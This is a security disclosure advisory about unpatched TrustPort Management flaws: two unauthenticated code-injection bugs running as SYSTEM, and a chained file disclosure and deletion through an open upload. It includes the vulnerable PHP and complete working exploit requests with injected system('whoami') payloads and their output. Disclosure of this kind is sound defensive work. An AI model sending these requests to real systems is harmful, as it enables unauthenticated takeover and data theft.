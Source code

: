 **Vulnerability Summary**<br>
Multiple vulnerabilities in TrustPort’s management product allow remote unauthenticated attackers to cause the product to execute arbitrary code.
TrustPort Management “offers you an effective and practical way to install centrally, configure and update antivirus software in your network and it enables mass administration of TrustPort products. Central administration from TrustPort brings you simple application of corporate security policies, monitoring of security incidents or the remote starting of tasks”.

**Vendor Response**<br>
The vulnerability was reported to the vendor on March 6th, the following response was received on the 6th of March:
“thanks for information. We are going to correct the errors in following version of the SW.”
No further response was received, though 3 more emails were sent by us to the company between the March 6th and the date of publication. We have no idea of how to resolve this bug, the only workaround is to not expose the administrative port to untrusted networks.

**Credit**<br>
An independent security researcher, Ahmed Y. Elmogy, has reported this vulnerability to Beyond Security’s SecuriTeam Secure Disclosure program.

**Vulnerability Details**<br>
1. Pre-auth remote code execution vulnerability (as SYSTEM) in https://host:20394/get/settings-set-user.php.
Requirements: No authentication is required to exploit this vulnerability.
Vulnerable lines 25 to 29:
```
foreach($_POST AS $key=>$val) {
  # Do objektu nastrkame hodnoty, ktere jsme ziskali s POSTu
  $evalcode .= '$data->users->user->'.$key.'->data = \''.$val.'\';';
}
@eval($evalcode);
```

No validation is being done on user input before using eval on it.
Exploitation request:

```
POST /get/settings-set-users.php HTTP/1.1
Host: VULNERABLE_HOST:20394
Connection: close
Content-Length: 177
Origin: https://VULNERABLE_HOST:20394
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept: */*
Referer: https://VULNERABLE_HOST:20394/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.8
action=update&id=&enabled=on&login=admin';system('whoami');//&loginpass=&loginpass2=&firstname=built-in&surname=administrator&email=&lang=ENU
```

Response:

```
nt authority\system
({"success":"false",
        "vipperResult":"-2700",
        "resultDesc":"ER_TPM_AUTHENTICATION_FAILED"
      })
```

2. Pre-auth remote code execution vulnerability (as SYSTEM) in https://host:20394/get/settings-set-user-perms.php
Requirements: No authentication is required to exploit this vulnerability.
Vulnerable lines 16 to 25:

```
$evalcode = '';
foreach($_POST AS $key=>$val) {
  if (preg_match('/hide\|perms\|/',$key)) {
    $key = str_replace('|','->',preg_replace('/hide\|perms\|/','',$key));
    $evalcode .= '$permdata->userpolicies->permissions->'.$key.'->data = \''.$val.'\';';
  }
  $evalcode .= '$permdata->userpolicies->permissions->attr[\'rights\'] = \''.$_POST['rights'].'\';';
  $evalcode .= '$permdata->userpolicies->permissions->attr[\'id\'] = \''.$_POST['id'].'\';';
}
@eval($evalcode);
```

No validation is being done on user input before using eval on it.
Exploitation request:

```
POST /get/settings-set-user-perms.php HTTP/1.1
Host: VULNERABLE_HOST:20394
Connection: close
Content-Length: 41
Origin: https://VULNERABLE_HOST:20394
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept: */*
Referer: https://VULNERABLE_HOST:20394/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.8
id=test';system('whoami');//&rights=admin
```

Response:

```
nt authority\system
({"success":"false",
        "vipperResult":"-2700",
        "resultDesc":"ER_TPM_AUTHENTICATION_FAILED"
        })
```

3. Pre-auth remote arbitrary file disclosure/deletion in https://host:20394/get/manage-get-stations-add.php<br>
Requirements: No authentication is required to exploit this vulnerability, requires combination with another minor vulnerability to be exploitable.<br>
Restrictions: The file disclosed will be deleted after that, unless the “exploiter” manages somehow to race the PHP code before that happens (I doubt).<br>
Vulnerable code, line 74 to 76:

```
case "download":
  export_download_file($_GET['key']);
  break;
```

Where export_download_file is:

```
function export_download_file($filename) {
  $path = ini_get('upload_tmp_dir').'\\'.$filename;
  $filename = file_get_contents($path);
  ob_end_clean();
  header('Content-type: application/download');
  header('Content-Disposition: attachment; filename="export.csv"');
  header('Content-transfer-encoding: binary');
  header('Content-Length: '.filesize($filename));
  readfile($filename);
  unlink($path);
  unlink($filename);
}
```

So this couldn’t be directly exploited because it actually views the contents of the path, that’s written in a file (idk what could be the purpose of this function), but I found another minor file upload vulnerability (no .php extensions) that helps exploiting this. In /get/settings-set-backup.php.<br>
Vulnerable code:
```
} else if ($_POST['action'] == 'upload' ) {
  $viperpath = '/control/command/backup/upload/';
  $send = "false";
  $vipperResult = "0";
  // kontrola existence nahravaneho souboru
  if(empty($_FILES['restore_file']['tmp_name']))
    die('{"success":"false",
          "vipperResult":"-3",
          "resultDesc":"ER_FILE_NOT_FOUND"
         }');
  // cesta k nahranemu souboru
  $tmpName = realpath(dirname(__FILE__) . '/../../tmp/').'\\restore_bkp_'.$_SESSION['useruid'];
  copy($_FILES['restore_file']['tmp_name'], $tmpName);
```

This requires no authentication, and will create file restore_bkp_ (as _SESSION[‘useruid’] would be null) with whatever content we want (the path we want to disclose and consequently delete of course).
Exploitation requests:

```
POST /get/settings-set-backup.php HTTP/1.1
Host: VULNERABLE_HOST:20394
Connection: close
Content-Length: 306
Cache-Control: max-age=0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Origin: https://VULNERABLE_HOST:20394
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary6rzvt7fRozJ1TlNT
Referer: https://VULNERABLE_HOST:20394/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.8
------WebKitFormBoundary6rzvt7fRozJ1TlNT
Content-Disposition: form-data; name="restore_file"; filename="exploit.txt"
Content-Type: text/plain
C:\private.txt
------WebKitFormBoundary6rzvt7fRozJ1TlNT
Content-Disposition: form-data; name="action"
upload
------WebKitFormBoundary6rzvt7fRozJ1TlNT--
```

Then to disclose/delete the contents of C:\private.txt:

```
GET /get/manage-get-stations-add.php?action=download&key=restore_bkp_ HTTP/1.1
Host: VULNERABLE_HOST:20394
Connection: close
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.8
```

And response:

```
HTTP/1.1 200 OK
Date: Sun, 04 Mar 2018 18:02:26 GMT
Set-Cookie: GUISESSID=cc025911b45268643cbeb8e87aa30cc3; path=/
Pragma:
Expires: Mon, 26 Jul 1997 05:00:00 GMT
Last-Modified: Sun, 04 Mar 2018 18:02:26 GMT
Cache-Control: post-check=0, pre-check=0, false
Content-type: application/download
Content-Disposition: attachment; filename="export.csv"
Content-transfer-encoding: binary
Content-Length: 21
This is private data.
```
